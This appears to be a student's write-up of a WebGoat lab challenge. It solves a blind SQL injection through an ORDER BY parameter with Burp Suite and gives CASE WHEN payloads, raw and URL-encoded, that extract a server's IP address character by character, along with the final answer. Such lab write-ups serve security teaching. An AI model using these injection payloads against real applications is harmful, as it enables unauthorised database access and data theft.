



# Challenge name: Lesson 12

### Challenge Description:

In this assignment try to perform an SQL injection through the ORDER BY field. Try to find the ip address of the `webgoat-prd` server, guessing the complete ip address might take too long so we give you the last part: `xxx.130.219.202`

> Note: The submit field of this assignment is **NOT** vulnerable to an SQL injection.

### My solution
- Use Burp Suit and look at the header

- I can guess full query like: `SELECT ... FROM servers ORDER BY [column]`
- Change column name, I get result

- From `lesson 11` I think I can use this payload `(CASE WHEN (TRUE) THEN hostname ELSE id END)`
- Replace column by this payload, but we're working with URI, URL Encode this payload.
`(CASE%20WHEN%20(TRUE)%20THEN%20hostname%20ELSE%20id%20END)`

- It's working!
- Now, replace `TRUE` by your query to find 3 first number of ip, if query result is `TRUE` list will order by hostname else if `FALSE` list will order by id. And my full payload is:
`(CASE WHEN (SELECT SUBSTRING(ip,1,1) FROM servers WHERE hostname = 'webgoat-prd')='1' THEN hostname ELSE id END)`
And URL Encode it:
`(CASE%20WHEN%20(SELECT%20SUBSTRING(ip%2C1%2C1)%20FROM%20servers%20WHERE%20hostname%20%3D%20'webgoat-prd')%3D'1'%20THEN%20hostname%20ELSE%20id%20END)`
- Change index and keyword to find ip.
- Answer: `104.130.219.202`

### References
[Blind SQL Injection ('Order by' command)](https://portswigger.net/support/sql-injection-in-the-query-structure)